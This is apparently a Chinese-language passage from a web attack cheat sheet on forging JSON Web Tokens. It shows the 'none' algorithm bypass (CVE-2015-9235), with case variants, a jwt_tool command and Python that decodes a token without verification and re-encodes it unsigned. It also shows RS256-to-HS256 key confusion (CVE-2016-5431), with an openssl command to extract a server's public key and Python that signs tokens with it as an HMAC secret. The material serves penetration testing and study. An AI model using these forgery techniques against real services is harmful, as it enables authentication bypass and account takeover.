 ```powershell
Invalid signature. Expected SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c got 9twuPVu9Wj3PBneGw1ctrf3knr7RX12v-UwocfLhXIs
Invalid signature. Expected 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgB1Y= got 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgBOo=
```

### JWT签名 - None算法 (CVE-2015-9235)

JWT支持`None`算法进行签名。这可能是为了调试应用程序而引入的。然而，这可能对应用程序的安全性产生严重影响。

None算法的变体：

- `none`
- `None`
- `NONE`
- `nOnE`

要利用此漏洞，您只需要解码JWT并更改用于签名的算法。然后您可以提交新的JWT。但是，除非您**删除**签名，否则这将不起作用。

或者，您可以修改现有的JWT（请注意过期时间）

- 使用[ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

    ```powershell
    python3 jwt_tool.py [JWT_HERE] -X a
    ```

- 手动编辑JWT

    ```python
    import jwt

    jwtToken = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6InRlc3QiLCJpYXQiOiIxNTA3NzU1NTcwIn0.YWUyMGU4YTI2ZGEyZTQ1MzYzOWRkMjI5YzIyZmZhZWM0NmRlMWVhNTM3NTQwYWY2MGU5ZGMwNjBmMmU1ODQ3OQ'
    decodedToken = jwt.decode(jwtToken, verify=False)       

    # 在使用'None'类型编码之前解码令牌
    noneEncoded = jwt.encode(decodedToken, key='', algorithm=None)

    print(noneEncoded.decode())
    ```

### JWT签名 - 密钥混淆攻击 RS256 转 HS256 (CVE-2016-5431)

如果服务器的代码期望使用"alg"设置为RSA的令牌，但收到"alg"设置为HMAC的令牌，则可能会在验证签名时无意中使用公钥作为HMAC对称密钥。

由于攻击者有时可以获取公钥，攻击者可以将标头中的算法修改为HS256，然后使用RSA公钥对数据进行签名。当应用程序使用与其TLS Web服务器相同的RSA密钥对时：`openssl s_client -connect example.com:443 | openssl x509 -pubkey -noout`

> **HS256**算法使用密钥对每条消息进行签名和验证。
> **RS256**算法使用私钥对消息进行签名，并使用公钥进行身份验证。

```python
import jwt
public = open('public.pem', 'r').read()
print public
print jwt.encode({"data":"test"}, key=public, algorithm='HS256')
```

